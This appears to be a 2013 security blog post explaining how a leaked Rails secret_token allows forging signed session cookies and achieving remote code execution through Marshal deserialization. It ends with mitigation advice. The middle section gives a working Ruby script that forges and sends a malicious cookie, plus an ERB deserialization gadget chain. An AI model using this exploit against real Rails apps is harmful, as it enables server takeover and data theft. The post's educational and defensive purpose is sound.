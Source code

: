 ```yaml
---
permalink: /2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/index.html
layout: post
title: How to hack a Rails app using its secret_token
hn: 6110386
bestof: true
tags: [Security]
---
```


Create a new Rails app, open `/config/initializers/secret_token.rb` and you'll see your app's `secret_token`. As I will show you, if anyone who wishes you harm gets hold of this string then they can execute arbitrary code on your server. Troublingly, the Rails default includes it in your version control, and if you don't remove it then anyone who gets or is given access to your codebase has complete, complete control over your server. Maybe you added them to your private repo for a code review, or unthinkingly put a side-project production app into a public repo, or someone sneaked a look at your Sublime while you were out. It doesn't matter - if they have this key then they own you.

### Why your `secret_token` is important - session cookies

Your `secret_token` is used for verifying the integrity of your app's session cookies. A session cookie will look something like:

{% highlight ruby %}
_MyApp_session=BAh7B0kiD3Nlc3Npb25faWQGOgZFRkkiJTcyZTAwMmRjZTg2NTBiZmI0M2UwZmY0MjEyNGJjODBhBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMWhmYTBKSGQwYVQxRlhnTFZWK2FEZEVhbEtLbDBMSitoVEo5YU4zR2dxM3M9BjsARg%3D%3D--dc40a55cd52fe32bb3b84ae0608956dfb5824689
{% endhighlight %}

The cookie value (the part after the `=`) is split into 2 parts, separated by `--`. The first part is a Base64 encoded serialization of the hash that Rails will use as the `session` variable in controllers. The second part is a signature created using `secret_token`, that Rails uses to check that the cookie it has been passed is legit. This prevents users from forging nefarious cookies and from tricking Rails into loading data it doesn't want to load. Unless of course they have your `secret_token` and can also forge the signature...

### The serialized session hash

The first part of the cookie is a Marshal dump of the session hash, encoded in Base64. Marshal is a Ruby object serialization format that is used here to allow Rails to persist objects between requests made in the same session. In many cases it will only store the `session_id`, `_csrf_token` and Warden authentication data, but calling `session["foo"] = "bar"` in your controllers allows you to store pretty much anything you want. For my cookie above, unescaping the URL encoding and then Base64 decoding gives:

{% highlight ruby %}
"\x04\b{\aI\"\x0Fsession_id\x06:\x06EFI\"%72e002dce8650bfb43e0ff42124bc80a\x06;\x00TI\"\x10_csrf_token\x06;\x00FI\"1hfa0JHd0aT1FXgLVV+aDdEalKKl0LJ+hTJ9aN3Ggq3s=\x06;\x00F"
{% endhighlight %}

which if you squint hard enough is indeed starting to look kind of like a hash. This cookie is passed up to the server with each request, Rails calls `Marshal.load` on it, and merrily populates `session` with whatever serialized objects it is passed. Object persistance between requests. Brilliant.

### The signature

But wait, the cookie obviously lives on the client side, which means that a user can set it to be anything they want. Which means that the user can pass in whatever serialized object they want to our app. And by the time we reinflate it and realise that they have passed us a small thermonuclear device, it will be too late and the attacker will be able to execute arbitrary code on our server.

That's where our `secret_token` and the second part of the cookie value (the part after the `--`) come in. Whenever Rails gets a session cookie, it checks that it hasn't been tampered with by verifying that the HMAC digest of the first part of the cookie with its `secret_token` matches the second, signature part. This means in order to craft a nefarious cookie an attacker would need to know the app's `secret_token`. Unfortunately, just being called `secret_token` doesn't make it secret, and, as already discussed, if you aren't careful then it can easily end up somewhere you don't want it to.

### The attack - how to bake a poisonous cookie

If you know an app's `secret_token` and want to forge a valid cookie, you simply need to reverse the above process:

{% highlight ruby %}
require "net/http"
require "uri"

secret_token = "stolen-from-github-or-somewhere"

# Construct your evil hash
my_evil_session_hash = {
    "ive_made_a_huge_mistake" => true
}

# Serialize your hash
marshal_dump = Marshal.dump(my_evil_session_hash)

# Base64 encode this dump
unescaped_cookie_value = Base64.encode64(marshal_dump)

# Escape any troublesome characters and remove line breaks altogether
escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

# Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

# Construct your evil cookie by concatenating the value with the signature
my_evil_cookie = "_MyApp_session=#{unescaped_cookie_value}--#{cookie_signature}"

# BOMBS AWAY
url = URI.parse("http://myapp.com/") # Make sure you have a trailing / if you are sending to the root path

req = Net::HTTP::Get.new(url.path)
req.add_field("Cookie", my_evil_cookie)

res = Net::HTTP.new(url.host, url.port).start do |http|
    http.request(req)
end
{% endhighlight %}

This request will load `my_evil_session_hash` into `session`, which is purely on principal not good. But loading arbitrary strings and integers is not about to melt any servers. How can you choose the contents of your hash so as to actually do some damage? Some obscure objects buried deep inside Rails are happy to oblige:

{% highlight ruby %}   
# Thanks to the folks at CodeClimate for pointing this out

# The code in the ERB will run when Rails unserializes it
erb = ERB.allocate
erb.instance_variable_set :@src, "User.steal_all_passwords; User.email_spam_to_all_users;"

proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
my_evil_session_hash = {
    "proxy_of_death" => Marshal.dump(proxy)
}
# ... continue as above
{% endhighlight %}

And presto.

### Knowing is half the battle

ALL of this trouble can be trivially avoided by taking `secret_token` out of your version control. Put it into an environment variable (<a href="https://github.com/bkeepers/dotenv">dotenv</a> is handy for local, it's easy on <a href="https://devcenter.heroku.com/articles/config-vars">Heroku</a> too) and you can sleep (a bit more) soundly at night. If you suspect that someone you wouldn't want to meet on a dark night knows your `secret_token` then you can simply change it. All your existing cookies will be invalidated, but nothing else bad will happen. Of course, you still don't want anyone you don't trust to get any kind of access to your codebase at all. But you can at least make life difficult for them even if they do.

### Thanks to

<a href="http://railssecurity.com" target="_blank">Rails Security by Code Climate</a>
and
<a href="http://techbrahmana.blogspot.co.uk/2012/03/rails-cookie-handling-serialization-and.html" target="_blank">TechBrahmana</a>



